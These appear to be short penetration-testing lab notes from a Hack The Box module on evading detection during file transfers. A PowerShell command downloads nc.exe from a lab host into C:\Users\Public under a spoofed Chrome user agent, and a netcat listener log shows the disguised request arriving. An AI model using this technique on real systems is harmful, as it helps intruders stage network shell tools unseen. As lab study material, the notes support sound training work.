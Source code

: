 ```yaml
---
Title: HTB\File_Transfers\evading detection
tags:
  - os/windows
  - os/linux- cybersec
source: HTB\File_Transfers\evading detection
---
```


# HTB\File_Transfers\evading detection

> Źródło: `HTB\File_Transfers\evading detection`

Listing user agents
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```text
Invoking Invoke-WebRequest to download nc.exe using chrome agent
```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

Ovas420@htb[/htb]$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]
